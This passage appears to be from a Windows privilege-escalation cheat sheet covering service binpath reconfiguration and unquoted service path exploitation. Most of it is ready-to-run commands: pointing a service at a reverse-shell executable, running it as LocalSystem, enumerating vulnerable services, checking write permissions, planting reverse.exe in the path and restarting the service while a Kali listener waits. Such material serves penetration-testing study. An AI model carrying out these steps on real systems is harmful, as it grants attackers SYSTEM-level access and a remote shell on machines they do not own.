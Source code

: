 #### Reconfigure the service
```
sc config <SERVICE NAME> binpath= "\"C:\temp\reverse.exe\""
```

#### Change the start + object
```
sc config daclsvc obj= ".\LocalSystem" password= ""
sc config daclsvc start= "demand"
```

#### Start service
```
net start <SERVICE NAME>
```

### Unqouted Service Path
Executables in Windows can be run without using their extension (e.g. “whoami.exe” can be run by just typing “whoami”). Some executables take arguments, separated by spaces, e.g. someprog.exe arg1 arg2 arg3… This behavior leads to ambiguity when using absolute paths that are unquoted and contain spaces.

Consider the following unquoted path: ```C:\Program Files\Some Dir\SomeProgram.exe``` To us, this obviously runs ```SomeProgram.exe```. To Windows, ```C:\Program``` could be the executable, with two arguments: ```Files\Some``` and ```Dir\ SomeProgram.exe``` Windows resolves this ambiguity by checking each of the possibilities in turn. If we can write to a location Windows checks before the actual executable, we can trick the service into executing it instead.

#### Find service with unqoutes service paths
```
wmic service get name, pathname
```

#### Confirm this using sc:
```
sc qc <SERVICE NAME>
```

#### Check for write permissions:
```
.\accesschk.exe /accepteula -uwdq "<PATH>"

Get-Acl -Path <PATH> | fl
```

#### Copy the reverse shell executable and rename it appropriately:
```
copy C:\temp\reverse.exe "<PATH>"
```

#### Start a listener on Kali, and then start the service to trigger the exploit:
```
net stop <SERVICE>
net start <SERVICE>
```
